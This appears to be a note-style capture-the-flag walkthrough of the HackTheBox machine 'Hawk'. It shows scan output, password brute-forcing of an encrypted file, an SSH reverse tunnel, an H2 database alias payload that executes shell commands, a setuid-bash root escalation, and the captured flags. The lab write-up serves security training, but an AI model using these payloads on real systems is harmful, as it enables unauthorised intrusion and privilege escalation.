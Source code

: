 #  Hawk

# keyword

burp-openssl-salt

# information

```bash
# Nmap 7.70 scan initiated Mon Apr  1 09:22:13 2019 as: nmap -sC -sV -oA nmap 10.10.10.102

Nmap scan report for 10.10.10.102
Host is up (0.30s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16  2018 messages
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.27
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
8082/tcp open  http    H2 database http console
|_http-title: H2 Console
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

# Nmap done at Mon Apr  1 09:22:49 2019 -- 1 IP address (1 host up) scanned in 35.58 seconds
```

#    wget download ftp

 wget -m -r ftp://10.10.10.102

#  decryp drupal enc withe bruteforce-salted-openssl

```bash

bruteforce-salted-openssl
https://github.com/glv2/bruteforce-salted-openssl

  -d <digest>  Digest for key and initialization vector generation.
                 default: md5

google openssl default digest

### ssl certificate - openssl - What is the public key default MD ...

https://serverfault.com/questions/744076/openssl-what-is-the-public-key-default-md

Dec 18, 2015 - Any *digest* supported by the *OpenSSL* dgst command can be used. ... The *default digest* was changed from MD5 to SHA256 in *Openssl* 1.1.
```

```bash
root@ens:~/htb/Hawk# bruteforce-salted-openssl -1 -c aes-256-cbc -f /usr/share/wordlists/rockyou.txt  -d sha256  drupal.enc
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 30
Tried passwords per second: inf
Last tried password: friends

Password candidate: friends
```



# reverse for h2

ssh -f -N -R 8082:127.0.0.1:8082 test@10.10.14.27

# execute in h2



https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('chmod  4755 /tmp/bash')
```

daniel@hawk:~$ cat user.txt
d5111d4f75370ebd01cdba5b32e202a8
daniel@hawk:~$ cd /tmp/
daniel@hawk:/tmp$ ls
bash             systemd-private-7360dc54f94a443a987c70d6fcfdee9e-apache2.service-kS6oMl
hsperfdata_root  systemd-private-7360dc54f94a443a987c70d6fcfdee9e-systemd-resolved.service-Oro7Yk
LinEnum.sh       systemd-private-7360dc54f94a443a987c70d6fcfdee9e-systemd-timesyncd.service-o03nBy
daniel@hawk:/tmp$ ./bash -p
bash-4.4# cd /root
bash-4.4# cat root.txt
54f3e840fe5564b42a8320fd2b608ba0